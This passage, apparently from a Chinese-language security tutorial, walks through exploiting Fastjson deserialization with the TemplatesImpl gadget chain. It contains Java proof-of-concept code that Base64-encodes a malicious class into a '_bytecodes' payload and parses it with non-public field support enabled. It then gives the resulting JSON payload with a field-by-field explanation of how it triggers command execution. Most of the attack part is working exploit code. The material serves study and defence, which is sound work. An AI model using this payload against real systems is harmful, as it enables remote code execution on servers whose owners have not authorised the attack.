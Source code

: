 ```java
    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());
    }

    public static void main(String args[]){
        try {
            ParserConfig config = new ParserConfig();
            final String evilClassPath = System.getProperty("user.dir") + "\\out\\production\\UNSER\\fastjson\\Test.class";
            String evilCode = readClass(evilClassPath);
            final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
            String payload = "{\"@type\":\"" + NASTY_CLASS +
                    "\",\"_bytecodes\":[\""+evilCode+"\"],'_name':'','_tfactory':{ },\"_outputProperties\":{ }," +
                    "\"_version\":\"\"}\n";

            JSON.parseObject(payload, Object.class, config, Feature.SupportNonPublicField);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

我们构造的payload：

```json
{
	"@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
	"_bytecodes": ["yv66vgAAADQA...CJAAk="],
	"_name": "s",
	"_tfactory": {},
	"_outputProperties": {},
}
```

解释一下json中各部分的含义：

- **@type**——指定的解析类，即`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`，Fastjson根据指定类去反序列化得到该类的实例，在默认情况下只会去反序列化public修饰的属性，在PoC中，`_bytecodes`和`_name`都是私有属性，所以想要反序列化这两个属性，需要在`parseObject()`时设置`Feature.SupportNonPublicField`；
- **_bytecodes**——是我们把恶意类的.class文件二进制格式进行Base64编码后得到的字符串；
- **_outputProperties**——漏洞利用链的关键会调用其参数的getOutputProperties()方法，进而导致命令执行；
- `_tfactory:{}，_name`——为了满足漏洞点触发之前不报异常及退出，我们还需要满足 `_name` 不为 null ，`_tfactory` 不为 null；

最终运行即可弹出计算器：
